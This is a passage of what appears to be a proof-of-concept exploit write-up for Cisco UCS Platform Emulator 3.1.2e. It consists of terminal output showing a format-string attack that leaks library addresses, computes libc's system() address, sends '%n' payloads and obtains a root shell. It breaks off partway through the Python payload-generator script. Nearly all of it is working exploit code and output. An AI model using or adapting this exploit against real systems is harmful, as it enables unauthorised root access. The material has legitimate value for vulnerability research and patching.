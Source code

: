 Change current directory to poc
Run the poc4_ucspe_3.1.2e.py
The output should be:

TERMINAL1

```
demo@kali:~/poc$ mkfifo fifo1
demo@kali:~/poc$ mkdir output
demo@kali:~/poc$ tail -f fifo1 | ssh ucspe@192.168.1.43 > output/log
Pseudo-terminal will not be allocated because stdin is not a terminal.
The authenticity of host '192.168.1.43 (192.168.1.43)' can't be established.
RSA key fingerprint is SHA256:qEdgqNFyfqA2BU1+cH9rmYrsIOiQr/NlCpgAyzrX70Y.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.43' (RSA) to the list of known hosts.
uucspe@192.168.1.43's password:
TERM environment variable not set.
```

TERMINAL2

```
demo@kali:~/poc$ python poc4_ucspe_3.1.2e.py
Going through some menus please wait a moment..
You should now see on the other terminal message simmilar to "Error: Already in local-mgmt shell.."
[.] Dumping clicli::LocalMgmtSel::show(void*, base::String const&) addres from libsamvsh.so
    -> 0x6b9f64
[.] Calculating _ZN7clidcos15CommandEmulator16cli_param_filterEPKc .got.plt
    -> 0x6d7a70
[.] Dumping snprintf address from libc
    -> 0x7791210
[.] Calculating libc system address
    -> libc base addr = 0x7746000
    -> system addr = 0x7780f60

[.] Sending payload..
show sel %62c%28$nAAA
show sel %237c%28$nAA
show sel %86c%28$nAAA
show sel %229c%28$nAA
Sleep for fork adjustment..
Ok please type your commands (type exit for exit)
> id
['uid=0(root) gid=0(root) groups=0(root)']
>
```

poc4_ucspe_3.1.2e.py


```
import struct
import time
import binascii

def generate_payload(addr):
    basepayload = "show sel AAAAAAAAAAAA"
    aa = (addr >> 24 & 0xff)
    bb = (addr >> 16 & 0xff)
    cc = (addr >> 8 & 0xff)
    dd = (addr >> 0 & 0xff)
    if aa<34:
        aa_c_payload = aa + 222
    else:
        aa_c_payload = aa - 34
    if bb<34:
        bb_c_payload = bb + 222
    else:
```